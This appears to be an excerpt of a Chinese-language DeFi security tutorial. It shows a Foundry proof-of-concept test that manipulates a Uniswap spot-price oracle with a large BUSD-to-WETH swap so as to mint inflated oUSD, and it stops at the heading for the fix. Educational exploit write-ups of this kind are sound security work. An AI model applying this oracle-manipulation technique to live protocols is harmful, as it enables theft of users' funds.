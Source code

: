 ```cpp
    function setUp() public {
        MAINNET_RPC_URL = vm.envString("MAINNET_RPC_URL");
        // fork指定区块
        vm.createSelectFork(MAINNET_RPC_URL, 16060405);
        router = IUniswapV2Router(ROUTER);
        ousd = new oUSD();
    }

    //forge test --match-test  testOracleAttack  -vv
    function testOracleAttack() public {
        // 攻击预言机
        // 0. 操纵预言机之前的价格
        uint256 priceBefore = ousd.getPrice();
        console.log("1. ETH Price (before attack): %s", priceBefore);
        // 给自己账户 1000000 BUSD
        uint256 busdAmount = 1_000_000 * 10e18;
        deal(BUSD, alice, busdAmount);
        // 2. 用busd买weth，推高顺时价格
        vm.prank(alice);
        busd.transfer(address(this), busdAmount);
        swapBUSDtoWETH(busdAmount, 1);
        console.log("2. Swap 1,000,000 BUSD to WETH to manipulate the oracle");
        // 3. 操纵预言机之后的价格
        uint256 priceAfter = ousd.getPrice();
        console.log("3. ETH price (after attack): %s", priceAfter);
        // 4. 铸造oUSD
        ousd.swap{value: 1 ether}();
        console.log("4. Minted %s oUSD with 1 ETH (after attack)", ousd.balanceOf(address(this)) / 10e18);
    }

    // Swap BUSD to WETH
    function swapBUSDtoWETH(uint256 amountIn, uint256 amountOutMin) public returns (uint256 amountOut) {
        busd.approve(address(router), amountIn);

        address[] memory path;
        path = new address[](2);
        path[0] = BUSD;
        path[1] = WETH;

        uint256[] memory amounts = router.swapExactTokensForTokens(amountIn, amountOutMin, path, alice, block.timestamp);

        // amounts[0] = BUSD amount, amounts[1] = WETH amount
        return amounts[1];
    }
}
```

### 漏洞修复方案
